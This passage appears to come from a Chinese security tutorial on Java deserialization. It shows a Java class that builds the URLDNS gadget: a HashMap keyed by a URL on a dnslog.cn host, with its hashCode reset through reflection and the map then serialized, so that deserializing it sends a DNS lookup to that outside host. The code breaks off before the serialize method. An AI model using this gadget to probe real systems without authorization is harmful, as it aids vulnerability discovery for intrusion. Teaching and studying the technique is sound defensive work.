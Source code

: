 [![](assets/1700442779-8a4fc67f3d746aa9cedfbdc212d5df66.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117125127-f76810d4-8504-1.png)

[![](assets/1700442779-a9491b712368d615d52681efae4f21d5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117125134-fbccebc2-8504-1.png)

然后进行反序列化

```bash
package mytest;

import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.MalformedURLException;
import java.net.URL;
import java.util.HashMap;

public class DnsTest {
    public static void main(String[] args) throws Exception {
        HashMap<URL,Integer> hashMap=new HashMap<URL, Integer>();
        URL  url=new URL("http://c40tqs.dnslog.cn");
        url.hashCode();
        Class c=URL.class;
        Field fieldHascode=c.getDeclaredField("hashCode");
        fieldHascode.setAccessible(true);
        fieldHascode.set(url,233);
        hashMap.put(url,22);
        Serialize(hashMap);
    }
```